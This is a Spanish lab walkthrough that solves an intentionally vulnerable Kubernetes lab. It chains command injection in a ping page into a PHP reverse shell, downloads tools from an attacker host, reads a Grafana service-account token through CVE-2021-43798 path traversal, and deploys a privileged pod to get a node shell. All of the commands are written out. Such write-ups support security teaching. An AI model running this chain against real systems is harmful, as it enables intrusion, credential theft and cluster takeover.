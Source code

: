 # Solución del laboratorio

## Reconocimiento de la página web
Tras deplegar el laboratorio, obtenemos al dirección de una página web donde se puede hacer ping a distintas direcciones.

![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/ping%20web.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/ping%20web.png)

Como se está ejecutando el comando ping, comprobamos si se puede saltar los filtros para poder leer información del sistema(Path Traversal), por ejemplo:
```bash 
google.com;ls -l
``` 
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/web_lfi.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/web_lfi.png)

## LFI a RCE

Como se puede observar en la imagen anterior, la página puede ser vulnerable a LFI. Por ello intentaremos transformar el LFI a RCE a través de una reverse shell con PHP, modificando la IP y el puerto donde vamos a escuchar con netcat con nuestra máquina. Nuestro objetivo es conseguir escribir un archivo dentro del sistema al cual accediendo se lanza una shell en nuestra máquina que está escuchando. Más información del proceso en [php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell). Pasos: 

1. Cambiamos la IP y el puerto y basemos el archivo php-revshell.php a base64. 
```bash 
cat php-revshell.php | base64
``` 

2. Ejecutamos este comando el la web (utilizando como IP la 192.168.1.131 y el puerto 80443):
```bash 
google.com;echo "<php-revshell.php in base64>" | base64 -d > shell.php
``` 

3. Verificamos que se ha subido el archivo shell.php: 
```bash
google.com;ls -l 
```
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/googlecom_ls.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/googlecom_ls.png)

4. Ahora en nuestra máquina escuchamos por el puerto que hemos definido en el archivo php, en este caso el 80443: 
``` bash
nc -lvp 80443
```
5. Una vez escuchando en el puerto, ejecutamos el comando:
```bash
curl http://<ip-web>:<puerto-web>/shell.php
```
Conseguimos la reverse shell del pod donde se está ejecutando el servicio web. 

![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/revshell.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/revshell.png) 

## Reconocimiento en el pod

Una vez dentro hacemos un reconocimiento en el pod: 
1. Verificamos si podemos crear otros pods, para ello pasamos un binario de kubectl desde nuestra máquina creando un servidor web con python (recomendable copiar el bianrio en el archivo /tmp y ejecutar el comando ahí): 
```bash 
python3 -m http.server
``` 

Descargamos el binario y damos permisos de ejecución: 
```bash
wget 192.168.1.131:8000/kubectl
chmod +x kubectl
``` 
Verificamos si es posible la creación de pods:
```bash
./kubectl auth can-i create pods
``` 
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/no_can-i%20create%20pods.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/no_can-i%20create%20pods.png)

2. Como no se puede crear pod vemos si hay otros servicios corriendo en el nodo. 
```bash 
env 
```
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/env.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/env.png)

Vemos que hay un servicio Grafana corriendo en 10.103.238.75:3000. Buscamos la versión de Grafana para buscar posibles vulnerabilidades.

``` bash 
apk add curl
curl http://10.103.238.75:3000/login | grep version 
```
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/grafana_version.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/grafana_version.png)

## Grafana Path Traversal

1. Buscamos posibles vectores de ataque. La versión de Grafana es la "8.3.0-beta2", la cual es vulnerable a Path Traversal, es decir, podemos leer archivos del pod de Grafana. La vulnerabilidad esta clasificada con [CVE-2021-43798](https://www.exploit-db.com/exploits/50581). Aprovechando la vulnerabilidad de Grafana podemos leer el JWT del serviceaccount de Grafana, para ver si en este caso es posible crear pods con dicho token. Creamos una variable de entorno llamada token donde se encuentra el JWT del pod de Grafana.

``` bash 
wget http://10.103.238.75:3000/public/plugins/alertGroups/../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token
export token=$(cat token)
``` 
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/token_env.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/token_env.png) 

2. Comprobamos si el posible crear pods con el token de Grafana: 

``` bash 
./kubectl auth can-i create pods --token=$token
``` 
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/yes_can-i.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/yes_can-i.png)

## Escalar al nodo de Minikube

Como es posible crear pods, para escalar al nodo, es posible crear un [badpods](https://github.com/BishopFox/badPods) para escalar al nodo de Minikube.  Este es el YAML que utilizaremos: [bad-pod.yaml](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/kube-lab/lab-pentest/bad-pod.yaml).

1. Copiamos el archivo en la el pod del servicio web, esto lo podemos hacer igual que antes con el servidor python, utilizando los comandos:

``` bash 
wget 192.168.1.131:8000/bad-pod.yaml 
./kubectl apply -f bad-pod.yaml --token=$token
```

2. Vemos que se ha creado es nuevo pod:

``` bash
./kubectl get pods --token=$token
```

![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/create%20bad-pod.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/create%20bad-pod.png)

3. Una vez su status esté en Running, ejecutamos el comando siguiente y obtenemos la shell del nodo.

```bash
./kubectl exec -it everything-allowed-exec-pod --token=$token -- sh
```

![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/final_node.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/final_node.png)


Dentro de la shell de un nodo Minikube, se puede realizar diversas operaciones para gestionar y monitorear clústeres Kubernetes locales. Utilizando comandos como kubectl para interactuar con tus aplicaciones y recursos en el clúster, por ejemplo, desplegar y escalar aplicaciones, ver logs, y ejecutar comandos en contenedores. 